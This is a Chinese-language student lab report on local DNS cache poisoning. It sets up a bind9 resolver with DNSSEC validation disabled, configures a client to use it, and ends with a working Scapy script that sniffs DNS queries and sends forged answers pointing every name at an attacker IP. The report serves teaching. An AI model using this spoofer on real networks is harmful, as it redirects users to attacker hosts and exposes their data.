

# 第9章实验报告

[TOC]

## 实验名称

实现本地 DNS 缓存中毒攻击

## 实验原理

通过污染DNS Cache，用虚假的IP地址信息替换Cache中主机记录的真实IP地址信息，可以改变域名和IP的映射关系，使得用户在访问某网站时被错误引导至攻击者的网站中，从而暴露隐私信息。

## 实验环境

### DNS 服务器

**Ubuntu22.04**作为域名解析服务器，配置`bind9`流程如下

```shell
sudo apt install bind9 bind9utils bind9-doc bind9-host
sudo systemctl status bind9
```

- 安装`bind9`后默认启动



```
bind 内容包括
    name DNS服务
    named-chkconfig(named.conf文件检查工具)
    named-checkzone(zone文件检查工具)
    rndc(本地和远程DNS控制工具)
bind-libs: named DNS服务库
bind-utils: 辅助工具
	host, dig, nslookup, nsupdate
bind-chroot: 切根程序用于切换到更安全的目录`/var/named/chroot`

bind 配置文件
/etc/bind/named.conf
其中引用了3个文件
    include "/etc/bind/named.conf.options";        # 默认创建
    include "/etc/bind/named.conf.local";          # 默认创建
    include "/etc/bind/named.conf.default-zones";

```

- bind9设置允许查询和转发，并关闭dnssec

```
// Global Profile

options {
        directory "/var/cache/bind";

		// 允许查询和转发
        forwarders { 8.8.8.8; };
        allow-query { any; };
        recursion yes;

        dnssec-validation no;  // 禁用dnssec
        auth-nxdomain no;
        listen-on-v6 { any; };
};

```

### 客户机

在客户机`/etc/resolv.conf`添加DNS*服务器*的IP地址

```
nameserver 192.168.*.*
```

### 攻击机

- 安装`scrapy`，编写Python程序监听DNS服务器，并伪造DNS权威服务器回复信息。

```python
from scapy.all import *


def spoofDNS(pkt):
    if (DNS in pkt):
        print("sniff: ", pkt[DNS].qd.qname.decode())
        IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', rdata='10.0.0.55', ttl=172800)

        DNSpkt = DNS(
            id = pkt[DNS].id,
            qd = pkt[DNS].qd,
            aa = 1,
            rd = 0,
            qdcount = 1,
            qr = 1,
            ancount = 1,
            nscount = 0,
            an = Anssec
        )
        spoofpkt = IPpkt / UDPpkt / DNSpkt
        send(spoofpkt)

pkt = sniff(filter = 'udp and (src host 192.168.177.134 and dst port 53)',
            iface = "VMware Virtual Ethernet Adapter for VMnet8",
            prn = spoofDNS)

```

